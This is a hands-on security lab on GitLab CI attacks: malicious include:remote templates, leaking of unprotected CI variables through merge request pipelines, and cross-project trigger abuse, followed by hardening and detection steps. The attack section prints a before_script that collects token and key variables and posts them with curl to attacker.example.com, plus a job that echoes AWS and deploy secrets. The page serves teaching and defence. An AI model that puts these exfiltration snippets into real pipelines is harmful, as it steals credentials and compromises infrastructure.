

# Lab 2.9: GitLab CI Pipeline Attacks

<div class="lab-meta">
  <span>~35 minutes</span>
  <span>Intermediate</span>
  <span>Prerequisites: <a href="2.1-cicd-fundamentals.md">Lab 2.1</a></span>
</div>

GitLab CI/CD uses `.gitlab-ci.yml` for pipeline configuration, and while it shares concepts with GitHub Actions, it has its own set of features that create unique attack surface. Three GitLab-specific features. `include:remote`, unprotected CI/CD variables, and cross-project `trigger:` pipelines. each enable distinct attack vectors that do not have direct equivalents in GitHub Actions.

Unlike GitHub Actions where workflows are tied to the repository, GitLab CI can pull pipeline configuration from arbitrary external URLs via `include:remote`. GitLab CI/CD variables can be scoped to protected branches, but if left unprotected, they leak to every pipeline including merge request pipelines from untrusted contributors. And GitLab's `trigger:` keyword allows one project's pipeline to start another project's pipeline, creating lateral movement paths from low-privilege to high-privilege projects.

In this lab, you will exploit all three attack vectors against a vulnerable GitLab CI configuration, then apply the defenses that eliminate each one.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| GitLab | `gitlab:8929` | Self-hosted GitLab with `acme-webapp` and `ops/deploy-infra` projects |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. GitLab CI Architecture and Attack Surface"

    **Goal:** Understand how GitLab CI differs from GitHub Actions and identify the three features that create unique attack surface.

### Step 1: GitLab CI vs GitHub Actions

GitLab CI uses a single `.gitlab-ci.yml` file (vs GitHub Actions' `.github/workflows/*.yml`). Key architectural differences:

| Feature | GitHub Actions | GitLab CI |
|---------|---------------|-----------|
| Config file | `.github/workflows/*.yml` (multiple) | `.gitlab-ci.yml` (single) |
| Pipeline structure | Jobs within workflows | Stages containing jobs |
| Execution | GitHub-hosted or self-hosted runners | GitLab runners (shared or specific) |
| Secrets | Repository/org secrets (encrypted) | CI/CD variables (project/group/instance) |
| Reuse | Actions from marketplace | `include:` from URLs, projects, or local files |
| Cross-repo triggers | `workflow_dispatch` with PAT | `trigger:` keyword with `CI_JOB_TOKEN` |
| Fork PR behavior | Forks cannot access secrets by default | MR pipelines from forks can access **unprotected** variables |

### Step 2: Examine the vulnerable configuration

```bash
cd /repos/acme-webapp
cat .gitlab-ci.yml
```

```yaml
# Three attack vectors in one file:
include:
  - remote: 'https://shared-ci-templates.example.com/templates/build.yml'

variables:
  DEPLOY_TOKEN: $DEPLOY_TOKEN     # Not protected
  AWS_ACCESS_KEY_ID: $AWS_ACCESS_KEY_ID  # Not protected

deploy:
  stage: deploy
  script:
    - aws s3 sync dist/ s3://production-bucket/

trigger-infra:
  stage: trigger-downstream
  trigger:
    project: ops/deploy-infra    # No branch/source restriction
    branch: main
```

### Step 3: Understand `include:remote`

The `include:` keyword lets you import CI configuration from multiple sources:

| Include Type | Source | Risk |
|-------------|--------|------|
| `include:local` | Same repository | Low. same trust boundary |
| `include:project` | Another GitLab project | Medium. depends on project access |
| `include:remote` | **Any HTTP/HTTPS URL** | **High. attacker controls the content** |
| `include:template` | GitLab-managed templates | Low. maintained by GitLab |

When you use `include:remote`, the fetched YAML is **merged into your pipeline configuration**. The remote template can define jobs, variables, `before_script` blocks, and anything else valid in `.gitlab-ci.yml`. If the remote URL is compromised, the attacker controls your entire pipeline.

### Step 4: Understand CI/CD variable scoping

GitLab CI/CD variables have two critical properties:

- **Protected**: Only available in pipelines running on protected branches/tags
- **Masked**: Hidden from job logs (cosmetic, not a security control)

If a variable is **not protected**, it is available to:
- Pipelines on any branch
- Merge request pipelines (including from forks if enabled)
- Triggered pipelines from any source

This means an attacker who opens a merge request can read every unprotected variable.

### Step 5: Understand cross-project triggers

```yaml
trigger-infra:
  trigger:
    project: ops/deploy-infra
    branch: main
```

The `trigger:` keyword creates a **downstream pipeline** in another project. The downstream pipeline runs with the permissions and variables of the **target project**, not the source. If `ops/deploy-infra` has production deployment credentials, any pipeline in `acme-webapp` that reaches the trigger stage can access them indirectly.

---

???+ warning "Phase 2: BREAK. Three GitLab-Specific Attack Vectors"

    **Goal:** Exploit `include:remote` template injection, unprotected variable leakage, and cross-project trigger abuse.

### Attack 1: `include:remote` Template Injection

The vulnerable `.gitlab-ci.yml` includes a template from an external URL:

```yaml
include:
  - remote: 'https://shared-ci-templates.example.com/templates/build.yml'
```

If an attacker compromises `shared-ci-templates.example.com` (via DNS hijack, server compromise, or domain expiration), they can serve a malicious template:

```bash
# Examine the malicious template
cat /lab/src/malicious-template.yml
```

```yaml
# Attacker's template -- served from the compromised remote URL
.malicious-base:
  before_script:
    - |
      # Runs before EVERY job that extends this template
      env | grep -E '(TOKEN|SECRET|KEY|PASSWORD)' \
        | base64 | curl -sf -X POST "https://attacker.example.com/collect" \
        -H "Content-Type: text/plain" -d @- || true

security-scan:
  extends: .malicious-base
  stage: test
  script:
    - echo "Running security scan..."
    - echo "Scan complete. No issues found."
```

The malicious template injects a `before_script` that exfiltrates every secret available to the pipeline. Because `include:` merges the template into your pipeline, this code runs with your project's full permissions.

**Why this works:**

1. GitLab fetches the remote URL at pipeline start. no integrity check, no pinning
2. The template YAML is merged with full authority. it can define any valid CI construct
3. The malicious `before_script` runs before your legitimate job scripts
4. Job logs may not show the `before_script` output if the attacker suppresses it

### Attack 2: Unprotected CI Variable Leakage

```bash
# Create a merge request branch
cd /repos/acme-webapp
git checkout -b feature/read-secrets
```

Add a job that reads all CI variables:

```bash
cat >> .gitlab-ci.yml << 'EOF'

extract-vars:
  stage: test
  script:
    - echo "Running tests..."
    - env | sort  # All unprotected variables are visible
    - echo "$DEPLOY_TOKEN"
    - echo "$AWS_ACCESS_KEY_ID"
    - echo "$AWS_SECRET_ACCESS_KEY"
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
EOF

git add .gitlab-ci.yml
git commit -m "Add test improvements"
git push origin feature/read-secrets
```

When a merge request is created, the MR pipeline runs with access to all **unprotected** CI/CD variables. The attacker can read deployment tokens, AWS credentials, API keys. anything not marked as "Protected."

**Why this works:**

1. GitLab runs MR pipelines using the `.gitlab-ci.yml` from the **source branch** (attacker-controlled)
2. Unprotected CI/CD variables are injected into MR pipelines
3. The attacker's modified `.gitlab-ci.yml` can echo, curl, or exfiltrate any variable
4. Variable masking only hides values from logs. it does not prevent script access

### Attack 3: Cross-Project Trigger Abuse

The vulnerable configuration triggers `ops/deploy-infra` without restrictions:

```yaml
trigger-infra:
  trigger:
    project: ops/deploy-infra
    branch: main
    strategy: depend
```

If the trigger job has no `rules:` restricting when it runs, an MR pipeline can trigger the downstream infrastructure deployment:

```bash
# The attacker's MR pipeline reaches the trigger stage
# and starts a pipeline in ops/deploy-infra with:
# - ops/deploy-infra's protected variables
# - ops/deploy-infra's deployment permissions
# - Access to production infrastructure
```

**Why this works:**

1. `trigger:` uses `CI_JOB_TOKEN` by default, which has cross-project access
2. The downstream pipeline runs in the **target project's context** with its secrets
3. No `rules:` means the trigger runs in every pipeline, including MR pipelines
4. The attacker cannot directly read the downstream secrets, but they can modify the trigger parameters to change what the downstream pipeline does

### Step 4: Combined attack chain

```
Attacker opens Merge Request
  ├── MR pipeline uses attacker's .gitlab-ci.yml
  │     ├── include:remote loads malicious template
  │     │     └── Exfiltrates all unprotected variables
  │     ├── extract-vars job reads DEPLOY_TOKEN, AWS keys
  │     └── trigger-infra job triggers ops/deploy-infra
  │           └── Production deployment with attacker-controlled parameters
  └── Result: secrets stolen + infrastructure compromised
```

---

???+ success "Phase 3: DEFEND. Securing GitLab CI Pipelines"

    **Goal:** Eliminate all three attack vectors with GitLab-native security controls.

### Fix 1: Replace `include:remote` with `include:project`

```bash
cd /repos/acme-webapp
git checkout main
```

Never use `include:remote`. Use `include:project` with a pinned ref to pull templates from a trusted internal repository:

```bash
cat > .gitlab-ci.yml << 'CIEOF'
# HARDENED .gitlab-ci.yml

# Defense 1: Templates from trusted internal repo only, pinned to tag
include:
  - project: 'security/ci-templates'
    file: '/templates/build.yml'
    ref: 'v2.1.0'
  - project: 'security/ci-templates'
    file: '/templates/security-scan.yml'
    ref: 'v2.1.0'

stages:
  - build
  - test
  - deploy
  - trigger-downstream

# Defense 2: No secrets in global variables block
variables:
  NODE_ENV: "production"

build:
  stage: build
  script:
    - npm ci
    - npm run build
  artifacts:
    paths:
      - dist/
    expire_in: 1 hour
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

test:
  stage: test
  script:
    - npm run test
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

# Sonar scan only on protected branches (SONAR_TOKEN is Protected)
sonar-scan:
  stage: test
  script:
    - sonar-scanner -Dsonar.login=$SONAR_TOKEN
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

# Defense 2: Deploy only from default branch, secrets are Protected variables
deploy:
  stage: deploy
  script:
    - aws s3 sync dist/ s3://production-bucket/ --delete
  environment:
    name: production
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
      when: manual

# Defense 3: Trigger restricted to default branch only
trigger-infra:
  stage: trigger-downstream
  trigger:
    project: ops/deploy-infra
    branch: main
    strategy: depend
  rules:
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
CIEOF
```

### Fix 2: Protect all sensitive CI/CD variables

In GitLab UI: **Settings > CI/CD > Variables**, for each sensitive variable:

1. Check **"Protected"**. only available on protected branches
2. Check **"Masked"**. hidden from job logs
3. Optionally set **"Environment scope"**. restrict to specific environments

```bash
echo "
GitLab CI/CD Variable Protection Checklist:

Variable              | Protected | Masked | Env Scope
=====================|===========|========|==========
DEPLOY_TOKEN         | YES       | YES    | production
AWS_ACCESS_KEY_ID    | YES       | YES    | production
AWS_SECRET_ACCESS_KEY| YES       | YES    | production
SONAR_TOKEN          | YES       | YES    | *
CI_JOB_TOKEN         | (auto)    | N/A    | (auto)
"
```

### Fix 3: Restrict cross-project triggers

Add `rules:` to trigger jobs to prevent MR pipelines from triggering downstream:

```yaml
trigger-infra:
  trigger:
    project: ops/deploy-infra
    branch: main
  rules:
    # Only trigger from default branch -- not from MR pipelines
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
```

For the downstream project (`ops/deploy-infra`), add validation:

```yaml
# In ops/deploy-infra/.gitlab-ci.yml
workflow:
  rules:
    # Only accept triggers from trusted projects
    - if: $CI_PIPELINE_SOURCE == "pipeline" && $CI_PROJECT_PATH == "team/acme-webapp"
    - if: $CI_PIPELINE_SOURCE == "push"
    - if: $CI_PIPELINE_SOURCE == "web"
```

### Fix 4: Commit and push

```bash
git add -A
git commit -m "Harden GitLab CI: replace include:remote, protect variables, restrict triggers"
git push origin main
```

### Fix 5: Final verification

```bash
weaklink verify 2.9
```

### Key defenses summary

1. **Never use `include:remote`**. use `include:project` with pinned refs from trusted repos
2. **Mark all secrets as Protected**. unprotected variables leak to MR pipelines
3. **Add `rules:` to every job**. prevent MR pipelines from reaching deploy/trigger stages
4. **Restrict cross-project triggers**. validate source project in the downstream pipeline
5. **Use `CI_JOB_TOKEN` permissions**. configure the token's access scope per-project in GitLab settings

---

??? danger "Phase 4: DETECT. Catching GitLab CI Exploitation"

    **Goal:** Detect when attackers exploit GitLab CI features for secret exfiltration or lateral movement.

### SIEM / Log Indicators

GitLab produces audit events for CI/CD changes and pipeline activity. The key signals are: **new `include:remote` URLs appearing in CI configs**, **variable access patterns in MR pipelines**, and **cross-project trigger chains from unexpected sources**.

**What to look for:**

- `.gitlab-ci.yml` changes that add `include:remote` URLs
- MR pipelines accessing CI/CD variables that should be protected
- Cross-project trigger chains originating from MR pipelines
- Pipeline jobs making outbound HTTP calls not present in previous runs
- `include:remote` URLs pointing to recently registered domains or non-internal hosts

### GitLab Audit Log Indicators

| Indicator | Type | Description |
|-----------|------|-------------|
| `include:remote` URL change | Config | New external URL in CI configuration |
| Variable access in MR pipeline | Variable | Sensitive variable read in untrusted context |
| Cross-project trigger from MR | Trigger | Downstream pipeline started by MR pipeline |
| `before_script` with curl/wget | Network | Data exfiltration from pipeline jobs |
| New CI/CD variable created without Protected flag | Config | Secret exposed to all pipelines |

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Injecting malicious CI templates via `include:remote` compromises the build pipeline |
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Malicious scripts executed via CI pipeline jobs and `before_script` blocks |
| **Unsecured Credentials: Credentials in Files** | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Unprotected CI/CD variables exposed to MR pipelines |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "include:remote URL changed in .gitlab-ci.yml" (repository monitoring)
    - "Sensitive variable accessed in merge request pipeline" (CI audit log)
    - "Cross-project pipeline triggered from MR pipeline" (pipeline audit)
    - "Outbound HTTP connection from CI job to unknown host" (network monitoring)

    **Why this matters to your SOC:** GitLab CI attacks are harder to detect than GitHub Actions attacks because GitLab's `include:` system merges external configuration invisibly. The malicious code does not appear in the repository's `.gitlab-ci.yml`. it is fetched at runtime from a remote URL. Variable leakage is silent: the variables are designed to be injected into pipelines, so reading them is normal behavior. The SOC must monitor for the *context* (MR pipeline vs protected branch pipeline) in which variables are accessed.

    **Triage workflow:**

    1. **Check the `include:remote` URL**. is it an internal or external host? Has the URL changed recently? Is the domain newly registered?
    2. **Review the MR diff**. did the MR modify `.gitlab-ci.yml`? Did it add new jobs or change `include:` directives?
    3. **Check variable protection status**. are the accessed variables marked as Protected? If not, they should be.
    4. **Trace cross-project triggers**. did an MR pipeline trigger a downstream deployment? Check the downstream pipeline's activity.
    5. **Review job logs**. look for `env`, `printenv`, `curl`, `wget` in job output that should not be there.
    6. **If confirmed: rotate all exposed secrets**. every unprotected variable that was accessible to the MR pipeline must be rotated.

    **False positive rate:** Medium. Legitimate MR pipelines do run test jobs, and `include:project` changes happen in normal development. The key discriminators are: `include:remote` (should never appear), variable access in MR context (should only access non-sensitive vars), and cross-project triggers from MR pipelines (should never happen).

---

??? example "CI Integration"

    **`.github/workflows/gitlab-ci-audit.yml`** (for organizations mirroring to GitHub, or adapt for GitLab CI itself):

    ```yaml
    name: GitLab CI Config Audit

    on:
      pull_request:
        paths:
          - ".gitlab-ci.yml"
          - "**/.gitlab-ci.yml"

    jobs:
      audit-gitlab-ci:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Check for include:remote
            run: |
              if grep -r "remote:" .gitlab-ci.yml 2>/dev/null | grep -q "http"; then
                echo "::error::include:remote with external URL detected in .gitlab-ci.yml"
                echo "Use include:project with pinned refs instead."
                exit 1
              fi
              echo "No include:remote found."

          - name: Check for unprotected variable references
            run: |
              # Warn if secrets are referenced in global variables block
              if awk '/^variables:/,/^[a-z]/' .gitlab-ci.yml | grep -qE '\$(TOKEN|SECRET|KEY|PASSWORD)'; then
                echo "::warning::Sensitive variables referenced in global variables block."
                echo "Move these to Protected Variables in GitLab UI."
              fi

          - name: Check trigger jobs have rules
            run: |
              # Check that trigger: jobs have rules: restricting execution
              python3 -c "
              import yaml, sys
              with open('.gitlab-ci.yml') as f:
                  ci = yaml.safe_load(f)
              for job_name, job_config in ci.items():
                  if isinstance(job_config, dict) and 'trigger' in job_config:
                      if 'rules' not in job_config:
                          print(f'::error::trigger job \"{job_name}\" has no rules: block')
                          print('Add rules to restrict trigger to protected branches only.')
                          sys.exit(1)
              print('All trigger jobs have rules.')
              "
    ```

---

## What You Learned

1. **`include:remote` is the most dangerous GitLab CI feature**. it pulls pipeline configuration from any URL with no integrity verification, giving a remote attacker full control over your pipeline.
2. **Unprotected CI/CD variables leak to MR pipelines**. any variable not marked as "Protected" is available to merge request pipelines, including those from untrusted contributors.
3. **Cross-project triggers enable lateral movement**. an MR pipeline that reaches a `trigger:` stage can start pipelines in other projects with those projects' permissions and secrets.
4. **`include:project` with pinned refs replaces `include:remote`**. pull templates only from trusted internal repositories at specific tags, not from arbitrary URLs.
5. **Protected Variables are the primary secret scoping mechanism**. mark every sensitive variable as Protected so it is only available on protected branches.
6. **Every job needs `rules:`**. without explicit rules, jobs run in all pipelines including MR pipelines from untrusted sources.

## Further Reading

- [GitLab: CI/CD Variable Security](https://docs.gitlab.com/ee/ci/variables/#cicd-variable-security)
- [GitLab: Protected Variables](https://docs.gitlab.com/ee/ci/variables/#protect-a-cicd-variable)
- [GitLab: include keyword](https://docs.gitlab.com/ee/ci/yaml/index.html#include)
- [GitLab: Multi-project Pipelines](https://docs.gitlab.com/ee/ci/pipelines/downstream_pipelines.html)
- [Mercari: CI/CD Pipeline Security in GitLab](https://engineering.mercari.com/en/blog/entry/20220929-gitlab-ci-cd-pipeline-security/)
- [OWASP: CI/CD Top 10 - CICD-SEC-4: Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

<div class="terminal-embed"><iframe src="http://localhost:7681"></iframe></div>
